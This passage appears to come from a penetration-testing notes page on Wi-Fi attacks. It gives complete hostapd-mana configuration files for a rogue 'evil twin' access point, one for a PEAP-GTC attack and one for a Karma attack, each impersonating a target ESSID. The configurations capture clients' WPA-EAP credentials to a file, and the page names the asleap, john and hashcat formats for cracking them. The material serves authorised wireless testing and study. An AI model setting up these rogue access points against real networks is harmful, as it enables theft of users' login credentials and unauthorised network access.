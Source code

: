 ### Attack PEAP-GTC

```
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
```

### Karma attack
So that many clients can connect to us simultaneously
```
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
mana_credout=hostapd.creds
```

hostapd-mana returns strings to crack WPA-EAP in the following formats
	- asleap
	- john
	- hashcat
> Sometimes one tool isn't able to crack it and other is. If one doesn't find the password try with other and the same dictionary.
{: .prompt-warning }
